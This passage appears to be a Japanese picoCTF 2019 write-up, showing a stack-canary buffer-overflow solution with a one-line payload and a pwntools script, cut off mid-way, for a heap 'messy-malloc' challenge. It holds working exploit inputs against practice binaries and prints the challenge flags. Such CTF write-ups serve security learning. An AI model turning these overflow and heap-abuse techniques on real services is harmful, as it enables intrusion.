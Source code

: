Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />
### Solution
これはpicoCTF 2018のbof3とほぼ同じです。

去年のどこかのWriteupにあったコードを流用させてもらって、canary (33xO) をゲット。

<pre>
$ (python -c 'print("54\n"+"A"*32+"33xO"+"abcdefghijklmnop" + "\xed\x07")'; cat -) | ./vuln
Please enter the length of the entry:
> Input> Ok... Now Where's the Flag?
picoCTF{cAnAr135_mU5t_b3_r4nd0m!_069c6f48}
</pre>

Flag: `picoCTF{cAnAr135_mU5t_b3_r4nd0m!_069c6f48}`




<br /><br />
<br /><br />
## [Binary Exploitation]: messy-malloc (300 points)
- - -
### Challenge
> Can you take advantage of misused malloc calls to leak the secret through this service and get the flag? Connect with nc 2019shell1.picoctf.com 21899.
<br /><br />
Hint: If only the program used calloc to zero out the memory..

Attachment:

- auth (ELF 64-bit)
- auth.c

<br />
### Solution
GDBを使ってヒープがどうなるか見ながら解析しました。Ubuntu 18.04で解析したら、ちょっと動きが違ってました（うろ覚え）。

あと、recvuntil()辺りが思ったように動かなくて Invalid option になっちゃったりしたので、よくわかんないけど Invalid になった際には再トライするようにして対処しました。

```Python
#!/usr/bin/env python
from pwn import *
import re

# s=process('./auth')
s = remote('2019shell1.picoctf.com', 21899)
    
print s.recvuntil("> ") # Enter you command:
s.sendline("login")
print "## login"

print s.recvuntil("\n") # Please enter the length of your username
s.sendline("25")
print "## 25"

print s.recvuntil("\n") # Please enter your username
data = b'A' * 8 + '\x52\x4f\x4f\x54\x5f\x41\x43\x43' + '\x45\x53\x53\x5f\x43\x4f\x44\x45'
s.sendline(data)

print s.recvuntil("> ") # Enter you command:
s.sendline("logout")
```